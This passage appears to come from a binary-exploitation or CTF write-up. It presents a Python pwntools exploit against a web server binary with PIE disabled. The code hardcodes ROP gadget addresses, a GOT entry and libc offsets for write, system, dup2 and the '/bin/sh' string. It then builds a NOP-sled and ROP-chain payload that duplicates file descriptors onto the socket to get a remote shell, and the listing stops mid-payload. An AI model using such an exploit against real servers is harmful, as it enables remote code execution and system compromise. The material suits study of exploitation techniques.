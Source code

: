 We use these to create our final exploit:
```python
#!/bin/python

from pwn import connect, cyclic_find, p64, u64, urlencode
from pwn import context, log


class Exploit:
	def __init__(self, ip, port, timeout=0.5):
		self.ip = ip
		self.port = port
		self.timeout = timeout

		# hardcoded values
		self.file_not_found = 'File not found'
		self.command = 'GET'

		# PIE disabled
		# since PIE is disabled, we can use the exact addresses from ropper
		self.pop_rdi = 0x4011dd  # 0x4011dd: pop rdi; ret;
		self.pop_rsi_pop_r15 = 0x4011db  # 0x4011db: pop rsi; pop r15; ret;

		self.write_got = 0x603038

		# libc offsets
		self.write_offset = 0xf72b0
		self.system_offset = 0x45390
		self.dup2_offset = 0xf7970
		self.binsh_str_offset = 0x18cd57

		# file descriptors
		self.fd = 4      # file descriptor of our connection
		self.stdin = 0   #
		self.stdout = 1  #
		self.stderr = 3  #

		# manually found
		self.offset = cyclic_find('vaaaaaac', n=8)

	def __leak(self, fun_got):
		[...]

	def __exploit(self, libc_base):
		nop_sled = b'\x90' * self.offset

		payload = ''
		payload += nop_sled

		dup2_libc = self.dup2_offset + libc_base

		# dup stdin
		payload += urlencode(p64(self.pop_rsi_pop_r15))
		payload += urlencode(p64(self.stdin))      # fd we want to dup from
		payload += urlencode(p64(0xb5))            # bs filler

		payload += urlencode(p64(self.pop_rdi))
		payload += urlencode(p64(self.fd))         # fd we want to dup to
		payload += urlencode(p64(dup2_libc))       # function we want to call

		# dup stdout as well
		payload += urlencode(p64(self.pop_rsi_pop_r15))
		payload += urlencode(p64(self.stdout))     # fd we want to dup from
		payload += urlencode(p64(0xb5))            # bs filler
```